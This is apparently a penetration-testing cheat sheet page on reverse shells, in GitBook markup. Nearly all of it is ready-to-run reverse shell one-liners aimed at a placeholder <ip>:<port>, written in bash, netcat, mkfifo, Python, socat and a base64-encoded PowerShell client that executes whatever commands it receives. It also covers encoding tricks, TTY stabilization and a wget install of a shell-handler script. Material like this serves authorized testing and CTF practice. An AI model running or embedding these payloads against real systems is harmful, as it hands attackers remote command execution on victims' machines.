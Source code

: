 ```yaml
---
icon: book-skull
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Reverse Shells

## Reverse Shells

### Online Reverse Shell Generator

{% embed url="https://www.revshells.com/" %}

### Bash

{% tabs %}
{% tab title="Bash" %}
{% code overflow="wrap" %}
```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
{% endcode %}

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}
{% endtab %}

{% tab title="Base64" %}
We can encode the content in **base64**, to avoid conflicts with symbols and spaces in the URL. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

Generate the payload:

{% code overflow="wrap" %}
```bash
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64 | xargs -I{} echo "echo {}|base64 -d|base64 -d|bash"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python
```
{% endcode %}

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell

{% tabs %}
{% tab title="Base64" %}
Generate the payload:

{% code overflow="wrap" %}
```bash
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0 | xargs echo "powershell -e"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Interactive TTY

{% tabs %}
{% tab title="Script" %}
```bash
script -qc bash /dev/null
```
{% endtab %}

{% tab title="Python" %}
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

and then run:

```bash
# Press <Ctrl> + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```

#### Automatic Shell Stabilization

This script sets up a handler and automatically stabilizes Linux reverse shells. And for Windows machines uses `rlwrap` to allow command history, CTRL + L to clear the screen and other functions, also preventing CTRL + C from killing the session

{% embed url="https://github.com/NLXZ/pwnc/" %}

```sh
# Add it to your PATH
wget https://raw.githubusercontent.com/NLXZ/pwnc/refs/heads/main/pwnc.sh -O ~/.local/bin/pwnc
chmod +x ~/.local/bin/pwnc
```
